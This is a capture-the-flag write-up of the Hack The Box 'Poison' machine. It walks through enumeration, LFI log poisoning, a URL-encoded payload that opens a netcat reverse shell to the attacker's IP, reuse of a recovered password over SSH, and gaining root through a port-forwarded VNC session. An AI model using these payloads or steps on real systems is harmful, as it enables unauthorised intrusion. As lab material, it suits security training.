









---
tags:
  - FreeBSD
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Poison
- Reference : https://0xdf.gitlab.io/2018/09/08/htb-poison.html
- Solved : 2025.2.21. (Fri) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: SSH (22), HTTP (80).
    - **HTTP Service**:
        - Found PHP-based web application with several PHP files (`ini.php`, `info.php`, `listfiles.php`, `phpinfo.php`).
        - Webpage allows file inclusion.
    
2. **Web Exploitation**
    - **Log Poisoning**:
        - Identified `/var/log/httpd-access.log` containing user-agent field.
        - Injected PHP code into user-agent and executed commands.
        - Used the poisoned log file to obtain a reverse shell as `www`.
    
3. **Shell as `www`**
    - **Password Backup File**:
        - Found `pwdbackup.txt`, containing base64-encoded data.
        - Decoded password: `Charix!2#4%6&8(0`.
        - Used this password to SSH into `charix` account.
    
4. **Shell as `charix`**
    - **Finding `secret.zip`**:
        - Found a zip file in `charix`'s home directory.
        - Used `Charix!2#4%6&8(0` to extract its contents, revealing a `secret` file.
    
5. **Shell as `root`**:
    - Discovered an active VNC service (`Xvnc :1`) running as root.
    - Forwarded port 5901 via SSH.
    - Used the `secret` file as the VNC password to gain root access.

### Key Techniques:

- **Log Poisoning**: Injected PHP shell in access logs to execute remote commands.
- **Credential Discovery**: Extracted passwords from `pwdbackup.txt`.
- **Service Exploitation**: Used an active `Xvnc` session to escalate privileges.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.84
Performing quick port scan on 10.10.10.84...
Found open ports: 22,80
Performing detailed scan on 10.10.10.84...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 00:42 MST
Nmap scan report for 10.10.10.84
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.23 seconds
```

2 ports are open : ssh(22), http(80)

### http(80)



It's a temporary website taking php file as its input.
There are several php files listed : `ini.php`, `info.php`, `listfiles.php`, `phpinfo.php`



It seems that it's including php files to render.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.84 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.84
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 289]
/info.php             (Status: 200) [Size: 157]
/browse.php           (Status: 200) [Size: 321]
```

It doesn't find any extra pages.




# Shell as `www`

### Log poisoning

The log file of the web service is `/var/log/httpd-access.log`.



It seems that the it contains `user-agent` field.
I can inject php code here.



Then, I can run linux commands from the remote.
Using this, I can open a reverse shell.

The following is the payload to spawn a shell.

```perl
http://10.10.10.84/browse.php?file=../../../../../../../../var/log/httpd-access.log&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209000%20%3E/tmp/f
```

```shell
──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 59073
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
$ whoami
www
```

Then listener spawns a shell.


# Shell as `charix`

### Password backup file

While fetching `listfiles.php`, I found one extra text file : `pwdbackup.txt`



It seems that there's a base64 encoded password stored.



I decoded it with cyberchef, and the decoded password is : `Charix!2#4%6&8(0`
Given the `charix` at the front, I guessed that it might be the password for user named `charix`.
Let me check it with fetching `/etc/passwd`.



It is! There's a user `charix` on the system.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ED25519 key fingerprint is SHA256:ai75ITo2ASaXyYZVscbEWVbDkh/ev+ClcQsgC6xmlrA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ED25519) to the list of known hosts.
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to do a search in a manpage or in a file you've sent to a pager? Use
"/search_word". To repeat the same search, type "n" for next.
                -- Dru <genesis@istar.ca>
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

I got a shell of `charix`!


# Shell as `root`

### Enumeration

There's `secret.zip` file on `charix`'s home directory.

```bash
charix@Poison:~ % ls
secret.zip      user.txt
```

Let me bring it to kali.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ scp charix@10.10.10.84:secret.zip ./secret.zip 
(charix@10.10.10.84) Password for charix@Poison:
secret.zip                               100%  166     0.6KB/s   00:00
```

To unzip it, it requires password.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
```

I tried `fcrackzip` to brute-force, but it didn't work. 
The found password `Charix!2#4%6&8(0` worked instead.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ fcrackzip -uDp /usr/share/wordlists/rockyou.txt secret.zip 


┌──(kali㉿kali)-[~/htb]
└─$ unzip secret.zip                                          
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  


┌──(kali㉿kali)-[~/htb]
└─$ cat secret     
��[|Ֆz!
```

Don't know where and what this secret is yet.

Let's run `LinPEAS` to find privesc vector.

```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#processes
<SNIP>
root    529  0.0  0.9  23620  8868 v0- I    13:44    0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
<SNIP>


╔══════════╣ Users with console
charix:*:1001:1001:charix:/home/charix:/bin/csh                            
root:*:0:0:Charlie &:/root:/bin/csh
```

It seems that VNC server is running.

```bash
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.6.54728       ESTABLISHED
tcp4       0     44 10.10.10.84.22         10.10.14.6.42102       ESTABLISHED
tcp4       0      0 10.10.10.84.15913      10.10.14.6.9000        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.6.52084       CLOSE_WAIT
tcp4       0      0 10.10.10.84.49930      10.10.14.6.9000        CLOSE_WAIT
tcp4       0      0 10.10.10.84.80         10.10.14.6.35364       CLOSE_WAIT
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*     
```

Here I can find that port 5901 is open.

Let's open a SSH Local Port forwarding to connect to this from kali.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh -L 5901:localhost:5901 charix@10.10.10.84
```

Then, I can open a vnc window using the `secret`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ vncviewer 127.0.0.1:5901 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

Then I can get a `root` shell.

